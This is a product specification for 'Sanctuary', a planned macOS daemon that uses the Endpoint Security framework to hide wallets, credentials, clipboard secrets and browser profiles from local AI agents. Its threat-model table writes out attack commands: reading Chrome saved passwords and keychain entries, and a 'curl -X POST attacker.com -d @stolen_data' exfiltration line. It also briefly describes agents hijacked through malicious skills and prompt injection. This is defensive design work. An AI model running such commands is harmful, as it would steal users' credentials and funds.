

# Sanctuary — Product Spec v0.1

The AI agent shield for your machine.

Working name: Sanctuary. Alternates: Veil, Sanctum, Aegis, Bastion. Pick before launch.

## 1. Executive Summary

Sanctuary is a system-level daemon that makes specific resources on your machine — folders, browser profiles, wallet extensions, keychain entries, clipboard contents, screen regions — invisible and unreachable to AI agents running on the same machine. From Hermes, OpenClaw, Claude Code, Cursor, Cline, Aider, or any other agent process: protected resources return "not found." Override requires hardware presence (Touch ID, YubiKey, hardware wallet button), never a password.

The wedge: every other security product on the market protects the agent's prompt (Phoenix, Langfuse) or the signing layer (Cubist, hardware wallets). Nobody protects the rest of the machine from a hijacked or misbehaving agent. ClawMoat exists in this space but ships as an npm wrapper — advisory, not enforcement. Sanctuary is OS-enforced.

Beachhead users: crypto-native indie developers and traders running local agents. Expansion: every AI agent power-user.

## 2. Threat Model

### What We Defend Against

| Attack vector | Concrete example |
| --- | --- |
| Direct filesystem read | `cat ~/.config/Google/Chrome/Default/Login\ Data` to dump saved passwords |
| Wallet keystore exfiltration | Reading MetaMask LevelDB at `~/Library/Application Support/Google/Chrome/Default/Local Extension Settings/<METAMASK_ID>/` |
| Browser automation hijack | Agent attaches via Chrome DevTools Protocol to authenticated profile, drives MetaMask popup, signs malicious tx |
| Clipboard scraping | Agent reads clipboard during seed phrase paste |
| Screen capture | `screencapture` during wallet unlock or transaction confirmation |
| Keychain access | `security find-generic-password` for stored API keys, exchange passwords |
| Shell history / dotfiles | `.bash_history`, `.zsh_history`, `.env`, `.aws/credentials`, `.ssh/`, `.config/` |
| Network exfiltration | `curl -X POST attacker.com -d @stolen_data` after any of the above |
| Process tree manipulation | Spawning child processes to bypass shell-level wrappers |

### What's Already Documented In The Wild

- Cisco: agents fail decisively against malicious skills; hidden instructions in emails and web pages hijack behavior.
- Permiso/Rufio: built credential-stealing skill, mapped C2 infrastructure.
- Snyk: 13.4% of public skills have critical security issues.
- Oasis Security: 40,000+ exposed agent instances; any website can hijack them.

### What We Explicitly Do Not Defend Against

- Network-level attacks against the agent (DNS poisoning, MITM).
- Vulnerabilities in the underlying OS or hardware.
- Physical access to an unlocked machine.
- Social engineering of the human user.
- Prompt injection itself. We assume the agent is hijacked and contain blast radius.

The threat model assumption: the agent will be compromised. Our job is to make the compromise non-fatal.

## 3. Product Positioning

### One-line Pitch

"Run AI agents on your machine without giving them the keys to your life."

### Killer Demo

1. Open MetaMask test wallet with $10 in testnet ETH.
2. Run a public agent skill that has a known credential-exfil exploit.
3. Watch wallet drain to attacker address.
4. Restore wallet. Enable Sanctuary. Add MetaMask to protected extensions.
5. Replay the exact same skill. Agent fails — extension is invisible. Audit log shows the attempt.
6. Cut to feature reel.

This video is the entire launch. Goal: 100k views in 72h on crypto Twitter.

### Tagline Candidates

- "The AI agent shield."
- "Make your wallet invisible to AI."
- "Your machine, with rooms only you can enter."

## 4. Architecture Overview



### Why OS-level, Not Wrapper-level

- npm-wrapped CLIs can be bypassed by any agent that goes around the wrapper: direct syscall, direct fs library, child shell.
- Code-signing-bound enforcement at the kernel boundary cannot be bypassed without root, SIP disable, and reboot.
- This is the same architecture EDRs use; Sanctuary adapts it for consumer and AI-agent-specific UX.

## 5. v0.1 MVP Scope

Platform: macOS only. Largest crypto-dev user base, single Endpoint Security framework to integrate, fastest to ship.

### Features That Ship In v0.1

- Protected folders: `sanctuary protect ~/Vault` makes folder return `ENOENT` to agent processes.
- Default protected folders: `~/.ssh`, `~/.aws`, `~/.gnupg`, `~/.config/solana`, common wallet keystores.
- Protected browser profiles: register Chrome/Brave/Arc profile by path; daemon watches `--remote-debugging-port` connections and drops agent access to protected profiles at the loopback layer.
- Protected browser extensions: MetaMask, Phantom, Rabby, Coinbase Wallet, Rainbow, Backpack, Solflare, 1Password, Bitwarden. Implemented via blocking reads to extension storage paths plus CDP guard.
- Clipboard Sentinel: when clipboard contains a BIP39 mnemonic, hex private key, or Solana key, agents see an empty clipboard for 60s or until next non-agent paste.
- Keychain Filter: items tagged with `sanctuary.human-only` service prefix return `errSecItemNotFound` when queried by agent processes.
- Touch ID / hardware override: every blocked action surfaces in menu bar with an "Allow Once" option requiring Touch ID. No password fallback.
- Audit Log: timestamp, process identity, requested resource, action taken. Append-only and daemon-signed. Viewable via `sanctuary log` or menu bar.
- Menu Bar App + CLI: menu bar shield icon, recent denial feed, quick toggle; CLI supports `protect`, `unprotect`, `status`, `log`, `override`, `agents list`.

### Features Explicitly Not In v0.1

- Linux, Windows.
- Screen capture filtering (v0.2).
- Process injection blocking (v0.2).
- Cloud audit log sync (v0.3).
- Family / team management (v0.4).
- Custom policy DSL (v0.4).
- Browser-native integration via WebExtension API (v0.3).

## 6. Technical Implementation

### Agent Process Detection

A process is classified as an agent if any of:

- Binary matches known list: `claude`, `claude-code`, `cursor`, `cline`, `aider`, `hermes`, `clawdbot`, `openclaw`, `continue`, `codex`, `goose`.
- Process tree contains a known agent runtime.
- User explicitly tagged the binary via `sanctuary agents add <path>`.
- Heuristic: process has env vars matching `ANTHROPIC_API_KEY`, `OPENAI_API_KEY`, or `OPENROUTER_API_KEY` and has spawned child shell processes within the last 60s.

False positive rate must be near-zero on the explicit list. Heuristics only escalate to "suspicious — confirm" UI prompts, never auto-block.

### File System Enforcement

Endpoint Security client subscribes to:

- `ES_EVENT_TYPE_AUTH_OPEN`
- `ES_EVENT_TYPE_AUTH_READDIR`
- `ES_EVENT_TYPE_AUTH_GETATTRLIST`
- `ES_EVENT_TYPE_AUTH_EXEC`

On each AUTH event:

1. Resolve target path and check against policy store.
2. If not in protected set: allow fast path in microseconds.
3. If protected: check process identity.
4. Non-agent process: allow.
5. Agent process: deny, log, notify.

Performance budget: less than 2% overhead on normal file operations, less than 50 microseconds added latency on protected-path checks.

### CDP Guard

Chrome, Brave, Edge, and Arc expose localhost debug ports when launched with `--remote-debugging-port=N`. Sanctuary:

- On daemon start, enumerates running browsers and discovers debug ports via `lsof`.
- Inserts a local proxy that intercepts WebSocket upgrade requests.
- Inspects target profile path from the debug session.
- If profile is protected and requesting process is an agent, drops the connection.

For agents using Playwright/Puppeteer with bundled Chromium, those bundled Chromiums are flagged as agent-controlled by default; protected extensions are unavailable in those bundles.

### Pasteboard Sentinel

```swift
NSPasteboard.general observer ->
  if content matches BIP39 (12/24 words from wordlist) OR
     hex string with entropy > 3.5 bits/char and length 64 OR
     base58 string length 87-88 (Solana key) ->
       set quarantine flag (60s TTL)
       agent processes reading pasteboard get NSPasteboardTypeString = ""
```

### Keychain Filter

macOS Keychain Services has a `kSecAttrService` attribute. Sanctuary recognizes service strings prefixed with `sanctuary.human-only.*` and intercepts queries via a TCC-style consent gate. The intercept point is a system extension that sits on the `SecItemCopyMatching` path.

Implementation uncertainty: if Keychain interception proves blocked, ship without it in v0.1 and require users to keep human-only secrets in a Sanctuary-managed encrypted vault file instead.

### Hardware Override

Use `LAContext.evaluatePolicy(.deviceOwnerAuthenticationWithBiometrics)` for Touch ID. YubiKey support via PIV/PKCS11 moves to v0.2.

### Audit Log

Append-only file: `/var/db/sanctuary/audit.log`.

Each entry signed with daemon's keychain-stored Ed25519 key.

Format: JSONL.

```json
{
  "ts": "2026-05-04T13:21:09Z",
  "process": {"pid": 4421, "path": "/usr/local/bin/claude", "signing_id": "..."},
  "resource": "/Users/tgg/Vault/seed.txt",
  "action": "DENY_READ",
  "policy": "protected_folder",
  "session": "..."
}
```

CLI example: `sanctuary log --since 1h --process claude`.

## 7. Tech Stack

| Component | Language | Rationale |
| --- | --- | --- |
| Daemon | Swift | Endpoint Security framework is Swift/Obj-C only |
| System Extension | Swift | Required for ES entitlement |
| CLI | Swift | Share types with daemon |
| Menu bar UI | SwiftUI | Native, low-friction |
| Policy store | SQLite | Boring, reliable |
| Build / packaging | Xcode + notarization | Required for ES entitlement |
| Future Linux port | Rust + Landlock + fanotify | v0.5 |
| Future Windows port | C++ minifilter driver | v0.6 |

### Apple Entitlement

Endpoint Security requires `com.apple.developer.endpoint-security.client`. Apple grants this case-by-case. Application takes 4-12 weeks. Apply on day 1. While waiting, build prototype using a TCC-only / FSEvents-based fallback path that ships without the entitlement, less robust but functional for alpha.

## 8. Roadmap

| Version | Window | Scope |
| --- | --- | --- |
| v0.1 | Weeks 1-6 | macOS. Folders, browser profiles, browser extensions, clipboard, keychain, Touch ID, audit log, menu bar, CLI |
| v0.2 | Weeks 7-10 | Screen capture filter. YubiKey support. Process injection blocking. Network egress allowlist for protected processes |
| v0.3 | Weeks 11-16 | Cloud audit log, browser-native integration, custom protection profiles |
| v0.4 | Weeks 17-24 | Family pack, team tier, policy DSL |
| v0.5 | Months 7-9 | Linux port |
| v0.6 | Months 10-12 | Windows port |

## 9. Distribution & Launch Plan

### Pre-launch

- Apple Developer Program enrollment and ES entitlement application in week 1.
- Reserve `sanctuary.app`, `usesanctuary.com`, `@sanctuaryapp`, and `sanctuary-app` GitHub org.
- Recruit 50 closed-alpha users from crypto Twitter: DeFi quants, MEV searchers, prop desk traders, indie agent devs.
- Produce demo video at week 5.

### Launch Sequence

- Day 0: demo video on Twitter, alpha tester reposts, Hacker News Show HN with technical post-mortem, crypto-Twitter thread.
- Day 1-7: targeted outreach to security researchers, DeFi security firms, and major agent framework devs.
- Day 7-30: crypto podcast circuit, DeFi conference circulation, Anthropic/OpenAI awareness.

### Distribution Channels

- Direct download from `sanctuary.app` as signed, notarized `.pkg`.
- Homebrew cask: `brew install --cask sanctuary`.
- GitHub releases for source-available verification.
- App Store: explicitly no, because Endpoint Security entitlement is incompatible with sandboxed App Store apps.

## 10. Business Model

| Tier | Price | Includes |
| --- | --- | --- |
| Sanctuary Free | $0 | OSS core. Folder protection, CLI, audit log, basic menu bar. Up to 3 protected zones |
| Sanctuary Pro | $9/mo or $79/yr | Browser profile + extension protection, clipboard sentinel, keychain filter, screen capture filter in v0.2, unlimited zones, hardware override |
| Sanctuary Family | $19/mo | Pro for up to 5 devices, shared policies |
| Sanctuary Team | $29/user/mo | Fleet view, central audit log, policy templates, SSO |
| Sanctuary Enterprise | Custom | SOC 2, custom policies, on-prem audit, dedicated support |

Revenue model rationale:

- Free tier exists because the OSS wedge is the growth strategy and crypto-native users will inspect source.
- Pro is priced at impulse-buy threshold for someone who just watched a fake MetaMask drain in the demo.
- Team is where real money lives once one engineer adopts and wants fleet rollout.
- Enterprise is upside, not the initial focus.

Year-1 unit math:

- 50k OSS installs as a credible 12-month target.
- 3% Pro conversion: 1,500 paying x $79/yr = $118k ARR floor.
- 50 Team customers averaging 8 seats x $29 x 12 = $139k ARR.
- Total Y1: $250-400k ARR.

## 11. Competitive Analysis

| Player | Approach | Where Sanctuary wins |
| --- | --- | --- |
| ClawMoat | npm wrapper, file system advisory | OS-level enforcement; covers browser/wallet/clipboard/keychain, not just files |
| Hardware wallets | Protect signing keys | Complementary; they protect the key, Sanctuary protects the rest of the machine |
| Cubist / Coinbase Agentic Wallets | Server-side TEE-backed agent wallets | Different problem; they are for agent wallets, Sanctuary protects human wallets from agents |
| CrowdStrike / SentinelOne | Enterprise EDR | Wrong audience, wrong UX, no AI-agent-specific intelligence |
| macOS TCC / native sandbox | OS permission prompts | Coarse, easily bypassed by Terminal apps; Sanctuary adds agent-specific identity |
| CryptoGuard / Wallet Guard / Blockaid | Transaction-level threat detection | Operates inside browser; does not stop file/credential exfiltration |
| Anthropic / OpenAI native agent sandboxing | Vendor-specific containment | Sanctuary works across agents from all vendors |

The defensible moat: OS-level integration is hard, slow to build, and requires vendor entitlements. Once Sanctuary ships and has a few thousand users plus a track record and audit log of blocked attacks, fast followers face a 6-12 month catch-up window. Use that window to expand to Linux/Windows and lock in the brand.

## 12. Risks & Mitigations

| Risk | Severity | Mitigation |
| --- | --- | --- |
| Apple denies or delays ES entitlement | High | Apply day 1. Build TCC-only fallback path. Prepare public-interest-oriented narrative |
| ClawMoat or new entrant wins brand first | Medium | Ship MVP fast. Lead with demo video. Aim for 50k installs in 90 days |
| Anthropic/OpenAI ship native sandboxing | Medium | Position as defense-in-depth across all vendors and local credential/wallet surfaces |
| False positives cause uninstall | High | Conservative defaults. One-tap Touch ID override. Heuristics prompt instead of auto-block |
| Performance regression | Medium | Fast-path non-agent processes. Benchmark continuously |
| Bypass via novel technique | High | Public bounty day 1. Publish threat model. Treat bypasses as backlog |
| Export controls | Low | Take legal advice early |
| Burnout | High | Bring in one Swift/macOS systems engineer as co-founder or first hire |

## 13. Immediate Next Steps

### This Week

1. Day 1: Apple Developer Program enrollment. Apply for `com.apple.developer.endpoint-security.client` entitlement.
2. Day 1: Reserve `sanctuary.app`, `usesanctuary.com`, `@sanctuaryapp`, `sanctuary-app`.
3. Day 2: Stand up repo with Swift Package Manager workspace and daemon, CLI, menu bar, extension targets.
4. Day 2-3: Prototype standalone agent-process classifier.
5. Day 4-7: Prototype Endpoint Security file-deny for one hardcoded protected folder against one hardcoded agent binary. Use TCC fallback if entitlement is still pending.
6. Week 2: Expand to multiple zones and multiple agent binaries. Add CLI surface.
7. Week 3: Touch ID override, audit log, menu bar UI.
8. Week 4: Browser profile and extension protection. CDP guard.
9. Week 5: Clipboard sentinel and keychain filter or vault-file fallback.
10. Week 5: Record demo video.
11. Week 6: Closed alpha to 50 users.
12. Week 7-8: Polish, fix, public launch with demo video.

## 14. Open Questions For Tobias

- Solo or co-founder? Swift/macOS systems engineering is specialized. Recruit before week 2?
- Brand decision: Sanctuary, Veil, Sanctum, or something else?
- OSS license: AGPL v3.
- Funding posture: bootstrap to first revenue or raise pre-seed before building?
- Relationship to existing infra: standalone company or under existing Dubai entity?
